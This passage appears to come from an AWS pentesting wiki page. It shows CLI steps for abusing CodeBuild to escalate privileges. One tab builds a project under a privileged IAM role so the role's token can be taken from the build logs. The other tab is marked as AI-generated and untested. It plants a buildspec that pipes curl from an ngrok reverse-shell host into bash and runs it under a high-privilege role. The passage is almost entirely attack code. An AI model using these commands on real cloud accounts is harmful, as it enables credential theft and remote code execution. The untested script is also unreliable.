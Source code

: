 ```bash
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"aws/codebuild/standard:1.0\",
\"computeType\": \"BUILD_GENERAL1_SMALL\"
},
\"serviceRole\": \"arn:aws:iam::947247140022:role/codebuild-CI-Build-service-role-2\"
}"


REV_PATH="/tmp/rev.json"

printf "$JSON" > $REV_PATH

# Create project
aws codebuild create-project --cli-input-json file://$REV_PATH

# Build it
aws codebuild start-build --project-name codebuild-demo-project

# Wait 3-4 mins until it's executed
# Then you can access the logs in the console to find the AWS role token in the output

# Delete the project
aws codebuild delete-project --name codebuild-demo-project
```
{% endtab %}

{% tab title="Παράδειγμα2" %}
{% code overflow="wrap" %}
```bash
# Generated by AI, not tested
# Create a buildspec.yml file with reverse shell command
echo 'version: 0.2
phases:
build:
commands:
- curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash' > buildspec.yml

# Upload the buildspec to the bucket and give access to everyone
aws s3 cp buildspec.yml s3:<S3_BUCKET_NAME>/buildspec.yml

# Create a new CodeBuild project with the buildspec.yml file
aws codebuild create-project --name reverse-shell-project --source type=S3,location=<S3_BUCKET_NAME>/buildspec.yml --artifacts type=NO_ARTIFACTS --environment computeType=BUILD_GENERAL1_SMALL,image=aws/codebuild/standard:5.0,type=LINUX_CONTAINER --service-role <YOUR_HIGH_PRIVILEGE_ROLE_ARN> --timeout-in-minutes 60

# Start a build with the new project
aws codebuild start-build --project-name reverse-shell-project

```
{% endcode %}
{% endtab %}
{% endtabs %}

